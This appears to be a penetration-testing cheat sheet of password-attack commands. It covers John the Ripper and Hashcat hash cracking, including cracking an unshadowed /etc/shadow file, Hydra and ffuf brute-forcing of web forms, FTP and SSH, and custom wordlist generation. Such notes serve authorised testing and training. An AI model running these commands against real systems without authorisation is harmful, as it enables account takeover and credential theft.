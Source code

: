 ## Password Cracking
### John The Ripper
#### Crack hash
```bash
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```
#### Cracking `/etc/shadow`
```bash
unshadow shadow.txt passwd.txt > unshadowed.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
### Hashcat

#### Crack Hash
```bash
hashcat -m hashmode_id pw_hash.txt /usr/share/wordlist/rockyou.txt
```
Learn more about hashmodes [here](https://hashcat.net/wiki/doku.php?id=example_hashes).
### Identify Hash Type
```bash
hash-identifier
```

## Brute Forcing / Dictionary Attack
### Hydra
#### HTML Form
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt target.com http-form-post "/auth/login.php:username=^USER^&password=^PASS^:Invalid username/password combination." -o results.txt -vV
```
#### HTML Form with Fail and Success String
```bash
hydra -L usernames.txt =P /usr/share/wordlists/rockyou.txt target.com -s 8080 http-form-post "/auth/login.php:username=^USER^&password=^PASS^:F=Invalid credentials:S=Login success." -H 'Cookie: PHPSESSID=1234abcd' -o results.txt -vV
```
> Note: If results are not showing, such as the page only refreshes if credentials dont match, we can just use an HTML tag as follows: `F=<form name='login'`.
#### FTP
```bash
hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ftp -s 10021 -o results.txt -vV
```
> Note: We can use the `-C` option for combined credential wordlists (i.e `hydra -C combined-http-auth.txt 10.10.10.10 -s 8080 http-get -o results.txt -vV`)
#### SSH
```bash
hydra -l ssh-admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh -o results.txt -vV
```
### Ffuf
#### Single Wordlist
```bash
ffuf -w wordlist.txt -u <http://target.com/login> -X POST -d "username=admin&password=FUZZ" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
#### Multiple Wordlist
```bash
ffuf -w wordlist.txt:USER,wordlist.txt:PASS -u <http://target.com/login> -X POST -d "username=USER&password=PASS" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
## Custom Wordlist
### Generate Password Wordlist Using Hashcat Rules
```bash
hashcat --stdout raw_pw.txt -r /usr/share/hashcat/rules/best64.rule > output.txt
```
### Generate Password Wordlist Using Cupp
```bash
cupp -i # interactive; just follow it
```
### Generate Username Wordlist Using Username-Anarchy
```bash
git clone https://github.com/urbanadventurer/username-anarchy.git

./username-anarchy Bill Gates > bill.txt
```

We can also use tools like [rsmangler](https://github.com/digininja/RSMangler) or [The Mentalist](https://github.com/sc0tfree/mentalist) to add as many alterations and permutations as possible into our wordlist.

Additionally, we can then use `sed` to further customize the generated wordlist to follow the target's password policy. For example:
```bash
sed -ri '/^.{,7}$/d' custom-password.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' custom-password.txt # remove no special chars
sed -ri '/[0-9]+/!d' custom-password.txt            # remove no numbers
```